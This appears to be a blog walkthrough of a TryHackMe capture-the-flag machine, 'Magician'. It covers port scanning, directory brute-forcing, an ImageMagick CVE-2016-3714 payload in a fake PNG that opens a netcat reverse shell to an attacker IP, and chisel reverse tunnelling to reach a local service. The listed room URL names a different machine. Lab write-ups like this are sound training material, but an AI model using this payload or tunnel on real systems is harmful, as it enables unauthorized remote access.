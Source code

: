```yaml
---
title: Walkthrough - Magician
published: true
---
```


Tags: CVE-2016-3714, chisel, port forward, tunnel
Description: Boot2root machine for FIT and bsides guatemala CTF.
Difficulty: Easy
URL: [https://tryhackme.com/room/glitch](https://tryhackme.com/room/glitch)

* * *

## Notes

- `sudo nmap -Pn -sS -T4 -p- magician -vvv`

```
PORT     STATE SERVICE         REASON
21/tcp   open  ftp             syn-ack ttl 61
8080/tcp open  http-proxy      syn-ack ttl 61
8081/tcp open  blackice-icecap syn-ack ttl 61
```

Visiting the website we have a `Whitelabel Error Page`

![0xskar](/assets/magician01.png)

- `gobuster dir -u http://magician:8080 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 100` yeilds us a few results

```
/files                (Status: 200) [Size: 2]
/upload               (Status: 405) [Size: 0]
/error                (Status: 500) [Size: 105]
```

Port 8081 is where we find the magician site.

- create a shell.png with the following

```
push graphic-context
encoding "UTF-8"
viewbox 0 0 1 1 
affine 1 0 0 1 0 0
push graphic-context
image Over 0,0 1,1 '|mkfifo /tmp/ian; nc 10.2.127.225 6666 0</tmp/ian | /bin/sh >/tmp/ian 2>&1; rm /tmp/ian '
pop graphic.context
pop graphic.context
```

- setup pwncat listener and upload shell to recieve listener

* * * 

## user.txt?

![0xskar](/assets/magician02.png)

* * * 

## root.txt?

```
(remote) magician@magician:/home/magician$ cat the_magic_continues 
The magician is known to keep a locally listening cat up his sleeve, it is said to be an oracle who will tell you secrets if you are good enough to understand its meows.
```

- `netstat -l` we can see a connection on port 6666
- upload `chisel` via http or pwncat
- now to portforward on attacker machine `chisel server --reverse --port 9001`
- and on target machine `./chisel client 10.2.127.225:9001 R:9002:127.0.0.1:6666`
- we can now access the magic cat on `http://localhost:9002/` and cat root.txt
- decode it!

* * * 

